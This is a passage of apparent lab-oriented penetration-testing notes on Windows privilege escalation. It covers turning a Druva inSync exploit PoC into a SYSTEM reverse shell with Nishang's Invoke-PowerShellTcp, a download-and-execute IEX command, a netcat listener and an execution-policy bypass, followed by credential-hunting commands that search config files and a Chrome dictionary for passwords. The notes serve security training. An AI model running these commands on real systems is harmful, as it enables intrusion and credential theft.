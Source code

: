 #### Modifying PowerShell PoC
Use `Invoke-PowerShellTcp.ps1`  script at: https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1. Append the following at the bottom of the script:
```PowerShell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the $cmd variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.
```PowerShell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')"
```
#### Catching a SYSTEM Shell

```Shell
python3 -m http.server 8080
```
Starts a Python Web server in the same folder as `shell.ps1`

```Shell
nc -lnvp 9443
```
Starts a netcat listener on the attack host

```PowerShell
Set-ExecutionPolicy Bypass -Scope Process
```
Modifies the PowerShell execution policy

```PowerShell
.\DruvaInSync.ps1
```
Executes the PoC PowerShell script on the target host


## Credential Hunting

### Application Configuration Files

#### Searching for Files
```PowerShell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```
Sensitive IIS information such as credentials may be stored in a `web.config` file. For the default IIS website, this could be located at `C:\inetpub\wwwroot\web.config`, but there may be multiple versions of this file in different locations, which we can search for recursively.

### Dictionary Files

#### Chrome Dictionary Files
```PowerShell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

